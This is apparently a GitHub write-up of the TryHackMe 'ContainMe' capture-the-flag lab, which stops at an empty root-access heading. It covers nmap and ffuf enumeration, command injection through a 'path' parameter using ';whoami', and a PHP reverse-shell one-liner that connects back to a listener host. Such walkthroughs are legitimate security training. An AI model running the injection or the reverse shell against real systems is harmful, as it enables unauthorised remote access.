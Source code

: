 # ContainMe - THM -Walkthrough <img width="90" height="89" alt="1_urU3DCALxSjKakNfdRlyGQ" src="https://github.com/user-attachments/assets/c9bc61b9-fea8-4efe-b9ad-c393bd913c37" />


## Enumeration
We will start with Nmap scan to see what open ports and what services are running on the target machine.
```
nmap -sV -sC -T4 -o nmapScan <IP>

OUTPUT
# Nmap 7.94SVN scan initiated Fri Sep 19 09:30:25 2025 as: /usr/lib/nmap/nmap -sV -sC -T4 -o nmapScan 10.10.29.198
Nmap scan report for 10.10.29.198
Host is up (0.084s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a6:3e:80:d9:b0:98:fd:7e:09:6d:34:12:f9:15:8a:18 (RSA)
|   256 ec:5f:8a:1d:59:b3:59:2f:49:ef:fb:f4:4a:d0:1d:7a (ECDSA)
|_  256 b1:4a:22:dc:7f:60:e4:fc:08:0c:55:4f:e4:15:e0:fa (ED25519)
80/tcp   open  http          Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
2222/tcp open  EtherNetIP-1?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
8022/tcp open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.13ppa1+obfuscated~focal (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:d7:72:6c:1f:ca:7b:6c:d1:99:90:fb:9e:74:81:75 (RSA)
|   256 c3:ef:e0:50:13:ab:96:fd:09:28:5c:dd:f7:1f:f6:34 (ECDSA)
|_  256 7b:bc:3f:a3:5a:d5:ab:a3:6f:98:95:bd:5f:8a:c1:2e (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 19 09:33:38 2025 -- 1 IP address (1 host up) scanned in 192.69 seconds

```
There is a HTTP servie at port 80/tcp and this is what we are going to investigate first.

## Command Injection
It's a default Apache page. So, I try to fuzz it using FFUF tool to find a hidden file or directory.
```
ffuf -u http://<target-ip>/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.txt,.html

RESULTS THAT WE CARE ABOUT
index.php
info.php
```
If we visit the info.php we will find the PHP Version 7.2.24 which is vulnerable to RCE. The index.php is more interesting and it contains a list of files in a folder on the Server.
<img width="525" height="195" alt="image" src="https://github.com/user-attachments/assets/491a69a8-d8fa-4ea1-9b52-d25f4bd35163" />

I give a try and test some wordkeys like cmd of just a ? after the .php extention but with no luck. So I try again with FFUF but this time a little bit different.
```
ffuf -u http://<target-ip>/index.php?FUZZ=whoami -w /usr/share/wordlists/burp_parameter_names.txt -fs 329

OUTPUT
path 
```
We have a parameter that we can use, but it will not work just like that. It take me a while but i figure the it need a semicolom (;) before the command. So the full URL with the whoami command must be
```
http://<target-ip>/index.php?path=;whoami

OUTPUT
www-data
```
<img width="619" height="200" alt="image" src="https://github.com/user-attachments/assets/3c7eeb1e-dff6-4808-9df4-cad27d404e44" />

## Shell
Here is the idea for a python script that it will help a little. It's the **command_injection.py** script. With this script i can navigate to the directories and files that the www-data user has access. With this way i found the user mike under the home directory.
<img width="446" height="466" alt="image" src="https://github.com/user-attachments/assets/4a3fb30e-5420-4a76-bc76-e2e1e7c6d151" />

So now it's time to send a revesre shell and take access on the target system. I use a php reverse shell that I find on Reverse Shell Generator (https://www.revshells.com/) and before I use it a start a netcat listener.
```
php -r '$sock=fsockopen("YOUR-IP",4444);$proc=proc_open("bash", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

## Root Access



